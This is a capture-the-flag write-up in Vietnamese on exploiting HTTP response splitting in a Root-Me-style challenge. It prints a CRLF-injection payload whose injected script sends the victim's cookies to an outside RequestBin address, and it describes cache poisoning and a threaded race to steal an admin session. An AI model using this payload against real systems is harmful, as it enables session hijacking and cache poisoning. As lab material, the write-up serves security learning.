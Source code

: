 # HTTP Response Splitting

Lưu ý: trước khi giải bài này thì bạn cần phải biết về cách thức tấn công này để có thể thực hiện tấn công thành công. Bạn có thể đọc ở [đây](http://www.moqifei.com/archives/609). Mình đã đọc qua một vài trang viết về HTTP Response Splitting và trang web vừa rồi là trang web viết rõ nhất và dễ hiểu nhất.

Khi mở trang web lên thì mình nhận được yêu cầu phải chọn ngôn ngữ.

![anh1](https://raw.githubusercontent.com/quochuyy10217/MyCTFWriteups/main/rootme/img_src/HTTPRessplit_1.png)

Thông qua việc tìm hiểu các tài liệu về HTTP Response Splitting, mình biết rằng mình có thể kiểm tra xem trang web có thể bị inject không  bằng việc sử dụng CLRF injection (sử dụng các kí tự \r\n để tạo xuống dòng trong request). Mình đã thử sử dụng và thêm vào 1 trường test=true. Sau khi kiểm tra response thì mình thấy dưới trường Set-Cookie của response có thêm trường test=true, tức là mình có thể thực hiện inject được.

![anh2](https://raw.githubusercontent.com/quochuyy10217/MyCTFWriteups/main/rootme/img_src/HTTPRessplit_2.PNG)

Mình viết thêm đoạn payload như sau:

```
\r\nContent-Length: 0
\r\n
\r\nHTTP/1.1 200 OK
\r\nContent-Type: text/html
\r\nLast-modified: Thu, 01, Jan 2100 12:00:00 GMT
\r\nContent-Length: 138
\r\n
\r\n<script>document.write("<h1>test</h1><img src=http://requestbin.fullcontact.com/148xfw11?".concat(document.cookie).concat(" />"))</script>

```

Ở đây, dòng Content-Length đầu tiên mình gán giá trị bằng 0, tức là inject vào gói response của server để kết thúc response thứ nhất. Sau đó mình viết thêm response thứ 2 cùng đoạn script để thực hiện XSS, gửi dữ liệu về 1 trang web thứ 3 và mình sẽ chờ ở đó để lấy dữ liệu. Last-modified mình set thành 1 giá trị khá lớn để tránh việc cập nhật lại cache của proxy, làm cho việc inject không thành công.

![anh3](https://raw.githubusercontent.com/quochuyy10217/MyCTFWriteups/main/rootme/img_src/HTTPRessplit_3.png)

Gửi request và thấy rằng mình đã tạo được 2 response thành công. Tuy nhiên nếu chú ý kĩ thì ở phần response của server trả về có trường Location.

![anh4](https://raw.githubusercontent.com/quochuyy10217/MyCTFWriteups/main/rootme/img_src/HTTPRessplit_4.png)

Trường này sẽ chỉ định việc redirect về trang /home, và việc này diễn ra rất nhanh, vì vậy không thể thực hiện exploit thành công được. Vì theo mình hiểu thì HTTP response splitting hoạt động dựa vào việc attacker gửi 1 request có kèm payload để nhận về 2 response, 1 response sẽ trả về cho attacker, còn lại 1 response sẽ lưu trữ trên cache của proxy. Lúc này nếu 1 request khác bất kì kết nối đến trong lúc cache còn lưu trữ response kia thì nó sẽ tự động ánh xạ response này cho tất cả các request tương tự. Trong bài này thì attacker sẽ gửi 1 request có kèm payload, sau đó nhận về 2 response, 1 response sẽ được lưu trữ lại trên cache là response thứ 2 (HTTP/1.1 200 OK). Sau đó hắn gửi 1 request tới /admin, response còn lại sẽ được ánh xạ vào request này, tức là từ lúc đó về sau các request tới /admin đều sẽ nhận được response HTTP/1.1 200 OK của attacker dẫn tới việc bị dính đoạn code XSS. Lúc này khi admin vào /admin thì cũng sẽ bị ảnh hưởng tương tự.

Tuy nhiên nhờ vào trường Location có trong http response thì trình duyệt sẽ tự động nhảy về /home ngay lập tức, dẫn tới việc attacker không thể gửi request thứ 2 tới /admin kịp. Vì vậy để exploit thành công thì mình đã viết 1 đoạn code sử dụng multi-threading để có thể gửi request thứ 2 tới /admin trước khi bị chuyển hướng về /home.

Đoạn code này mình sẽ up lên sau.

Chương trình mình viết bao gồm 2 function, 1 để poison cache của proxy bằng việc gửi 1000 payload để inject và 1 để gửi request tới /admin làm cho việc inject thành công. Để chắc chắn mình đã cho 4 luồng chạy song song.

Chạy chương trình và đợi 1 khoảng thời gian sau đó để admin ghé thăm /admin thì mình nhận thấy việc inject đã thành công vì đã có 1 request gửi tới trang RequestBin chứa session của admin.

![anh5](https://raw.githubusercontent.com/quochuyy10217/MyCTFWriteups/main/rootme/img_src/HTTPRessplit_5.PNG)

![anh6](https://raw.githubusercontent.com/quochuyy10217/MyCTFWriteups/main/rootme/img_src/HTTPRessplit_6.png)

Đem admin session vừa lấy được đem submit và giải được bài này.

![anh7](https://github.com/quochuyy10217/MyCTFWriteups/blob/main/rootme/img_src/HTTPRessplit_7.png)